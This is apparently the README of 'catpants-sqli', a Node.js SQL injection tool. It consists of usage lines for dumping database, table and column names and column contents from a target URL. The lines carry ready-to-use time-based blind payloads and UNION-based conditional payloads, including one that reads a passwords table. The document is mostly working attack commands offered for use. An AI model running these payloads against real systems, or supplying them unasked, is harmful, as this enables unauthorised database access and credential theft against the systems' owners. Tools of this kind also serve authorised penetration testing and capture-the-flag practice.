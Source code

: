 # catpants-sqli
## Usage
### Blind
* `node . dump-db-names -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -"`
* `node . dump-table-names -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -" --db data`
* `node . dump-column-names -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -" --db data --table users`
* `node . dump-table-column -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -" --db data --table users --column id`
### Conditional
* `node . dump-db-names -u "http://192.168.0.1" -d "check=1' UNION ALL SELECT (CASE WHEN {{> query}} THEN 1 ELSE NULL END),NULL-- -" --condition found`
* `node . dump-table-names -u "http://192.168.0.1" -d "check=1' UNION ALL SELECT (CASE WHEN {{> query}} THEN 1 ELSE NULL END),NULL-- -" --condition found --db data`
* `node . dump-column-names -u "http://192.168.0.1" -d "check=1' UNION ALL SELECT (CASE WHEN {{> query}} THEN 1 ELSE NULL END),NULL-- -" --condition found --db data --table users`
* `node . dump-table-column -u "http://192.168.0.1" -d "check=1' UNION ALL SELECT (CASE WHEN {{> query}} THEN 1 ELSE NULL END),NULL-- -" --condition found --db data --table passwords --column catpants`
